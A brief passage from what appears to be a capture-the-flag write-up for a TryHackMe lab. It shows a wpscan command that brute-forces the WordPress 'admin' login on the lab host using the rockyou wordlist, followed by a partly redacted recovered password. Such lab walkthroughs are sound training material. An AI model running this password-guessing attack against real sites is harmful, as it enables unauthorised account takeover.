 ```bash
wpscan -U "admin" -P /usr/share/wordlists/rockyou.txt --url http://internal.thm/blog/wp-login.php/
```

![image9](/assets/img/posts/THM-Internal/image9.png)

![image10](/assets/img/posts/THM-Internal/image10.png)

```bash
admin:m[Redated]s
```

### It works
